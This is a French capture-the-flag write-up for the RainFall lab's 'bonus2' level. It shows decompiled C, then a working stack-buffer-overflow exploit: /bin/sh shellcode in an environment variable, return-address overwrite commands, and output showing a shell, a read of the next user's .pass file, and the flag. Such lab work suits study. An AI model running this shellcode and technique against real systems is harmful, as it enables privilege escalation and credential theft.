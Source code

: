 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75 

```c
//----- (08048484) --------------------------------------------------------
int __cdecl greetuser(char src)
{
  __int128 dest; // [esp+10h] [ebp-48h] BYREF
  __int16 v3; // [esp+20h] [ebp-38h]
  char v4; // [esp+22h] [ebp-36h]

  switch ( language )
  {
  case 1:
    dest = xmmword_8048717;
    v3 = *((_WORD *)&xmmword_8048717 + 8);
    v4 = *((_BYTE *)&xmmword_8048717 + 18);
    break;
  case 2:
    strcpy((char *)&dest, "Goedemiddag! ");
    break;
  case 0:
    strcpy((char *)&dest, "Hello ");
    break;
  }
  strcat((char *)&dest, &src);
  return puts((const char *)&dest);
}
// 8048717: using guessed type __int128 xmmword_8048717;
// 8049988: using guessed type int language;

//----- (08048529) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[76]; // [esp+0h] [ebp-ACh] BYREF
  char dest[76]; // [esp+50h] [ebp-5Ch] BYREF
  char *v6; // [esp+9Ch] [ebp-10h]

  if ( argc != 3 )
  return 1;
  memset(dest, 0, sizeof(dest));
  strncpy(dest, argv[1], 40);
  strncpy(&dest[40], argv[2], 32);
  v6 = getenv("LANG");
  if ( v6 )
  {
  if ( !memcmp(v6, "fi", 2) )
  {
    language = 1;
  }
  else if ( !memcmp(v6, "nl", 2) )
  {
    language = 2;
  }
  }
  qmemcpy(v4, dest, sizeof(v4));
  return greetuser(v4[0]);
}
// 8049988: using guessed type int language;
// 8048529: using guessed type char dest[76];
```

# Explication

Le premier argument doit faire au maximum 40 (76 pour le buffer overflow) caractères et le deuxième 25 (40 + 15 + '\0' = 76). Sinon on a un overflow.

```
 ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 25')
```

On va utiliser la méthode du shellcode : (On reprend notre shellcode favori)
```
export ICE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";')
```

L'adresse d'ICE est `\x17\xfe\xff\xbf`.

Quand on utilise sans gdb ça ne SEGFAULT pas au même endroit donc on va chercher l’emplacement mémoire sans gdb (supposition : apparement gdb n’utilise pas
de bloc mémoire en multiple de 16), on utilise dmesg pour récupérer la valeur d’eip/esp.

**(à tester après avoir export ICE, l'alignement mémoire n'est pas le même sinon)**

Exemple d'utilisation de `dmesg | grep segfault` pour voir les SEGFAULT :

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 14 + "BBBB" + "a" * 22') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaaBBBBaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ dmesg | grep segfault
[25010.142648] bonus2[7926]: segfault at 61616161 ip 61616161 sp bffff108 error 14
[25024.417468] bonus2[7932]: segfault at 42424242 ip 42424242 sp bffff108 error 14
```

En regardant le code source on sait que la taille minimale pour faire segfault est 40 et 26 (= 76).

```
./bonus2 $(python -c 'print "a" * 14 + "\x17\xfe\xff\xbf" + "a" * 22') $(python -c 'print "b" * 26')

bonus2@RainFall:~$ ./bonus2 $(python -c 'print "a" * 14 + "\x17\xfe\xff\xbf" + "a" * 22') $(python -c 'print "b" * 26')
Hello aaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb
$ whoami
bonus3
$ cat /home/user/bonus3/.pass    
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Le flag est donc:

```
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
